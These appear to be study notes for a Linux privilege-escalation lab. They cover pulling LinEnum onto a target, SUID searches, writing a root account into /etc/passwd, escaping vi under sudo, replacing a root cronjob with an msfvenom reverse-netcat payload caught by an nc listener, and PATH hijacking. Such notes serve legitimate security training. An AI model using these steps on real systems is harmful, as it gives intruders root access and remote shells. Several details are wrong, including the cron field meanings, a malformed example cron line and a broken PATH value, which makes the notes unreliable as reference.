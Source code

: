 # <center>Common Linux Privsec<center>

### Use <strong>LinEnum</strong> script

- https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

### How to get LinEnum on target machine?

1. Use python server (python3 -m http.server) and then use wget command on target.
2. Copy-paste the entire script code in a file in target machine and make it executable.

### Understanding LinEnum Output

Output broken down into different sections:
- Kernel
- can we read/write sensitive files
- SUID files
- Crontab contents.

### Abusing SUID/GUID files

If special permission is set to files, orgivenn to user, it becomes SUID(Set User ID) with extra bin "4" and becomes GUID (Set group ID) with extra bin "2".

`
SUID: rws-rwx-rwx
GUID: rwx-rws-rwx
`
#### Finding SUID manually:
``` bash
find / -perm -u=s -type f 2>/dev/null
```
- find : initiates find command
- / : searches whole file system
- -perm : searches for file with specific permission
- -u=s : any of the permission bits mode are set.
- -tppe f : only searchfor files
- 2> /dev/null : supresses errors.

### Exploiting writeable /etc/passwd

#### /etc/passwd stores the content in following format:
```bash
test:x:0:0:root:/root:/bin/bash
```
1. username -> test
2. password -> stored as x in /etc/shadow
3. User ID (UID) -> 0 for root, 1-99 for predefined accounts, 100-999 for system & administrative accounts/groups
4. Group IID (GID) : primary group ID, stored in /etc/group file
5. user ID info -> root
6. Home directory
7. Command shell

### Write a new root user in /etc/passwd file .
1. Genetrate password.
    ```bash
    openssl passwd -1 -salt [salt] [password]
    ```
2. Add the output in /etc/passwd file in approprite format.
3. Login to root using ` su [username]` command.

voilà, you are logged in as root.

### Escaping VI editor

- `sudo -l` command is used to list what commands youu're able to use as a superuser on that account

- If VI is allowed to run as root, start vi editor using sudo vi command. then get the shell with `:!sh`.

### Exploiting crontab

- `cat /etc/crontab` : view active cronjobs.
- format of cronjob: `# m h dom mon dow user command`
    - \# = id
    - m = month
    - h = hour
    - dom = Day of month
    - mon = Month
    - dow = Day of week
    - user = What user the command will run as
    - command = What command should be run

- example : `17 * 1 * * * root cd / && run-parts --report /etc/sron.hourly`

- If a cronjob is found that runs as root, we can edit the script to get shell.
    ```bash
    msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=1234 R > MSFVENOM_OUTPUT;
    cat MSFVENOM_OUTPUT > [CRONJOB_FILE];
    nc -lnvp 1234 (on local system);
    ```

### Exploiting PATH varaiable

- create an imitable executable file in /tmp.

    ` echo "[whatever command we want to run]" > [name of the executable we're imitating]`

- change the path variable:

    `export PATH=/tmp:$PATH`

- to change back path variable, use

    `export PATH=/usr/local/sbin:/usr/local/bin:usr/sbin:/usr/sbin:/sbin:/bin:/usr/local/games:/usr/games:$PATH`
